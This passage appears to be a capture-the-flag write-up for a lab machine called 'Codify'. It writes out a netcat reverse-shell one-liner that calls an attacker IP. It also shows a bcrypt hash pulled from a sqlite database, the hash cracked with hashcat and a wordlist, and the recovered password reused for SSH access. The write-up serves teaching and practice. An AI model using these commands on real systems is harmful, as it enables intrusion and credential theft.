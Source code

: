 Using the above vulnerability it was possible to start a reverse shell by executing netcat on the host and a listener on the attacker.
```
$ nc -lvp 4446
Listening on 0.0.0.0 4446
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.49 4446 >/tmp/f
```

The user, which runs the Node.js server was svc, which did not have access to any user flags.
```
$ whoami
svc
```

After some further digging on the server, a contact website was found, which was not published on the server. The folder contained a `tickets.db` file, which is an sqlite database file.
```
$ ls /var/www
contact
editor
html
```
```
$ ls -l /var/www/contact
total 112
-rw-rw-r-- 1 svc svc  4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc svc   268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc svc 77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc svc  4096 Apr 21  2023 templates
-rw-r--r-- 1 svc svc 20480 Sep 12 17:45 tickets.db
```

The database could be opened using the sqlite3 CLI. Checking the tables showed a user table, which contained the password hash for a joshua user. This joshua user was also found on the machine itself.
```
$ sqlite3 tickets.db
.tables
tickets  users  
```
```
select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

The hash could be cracked using an offline bruteforce attack with the tool hashcat.
```
$ hashcat -m 3200 -a 0 hashes /usr/share/wordlists/rockyou.txt --show
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2 spongebob1
```

The credentials turned out to be reused on the host, proven by a successful SSH login as joshua. This led to access to the user flag.

```
joshua@codify:~$ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
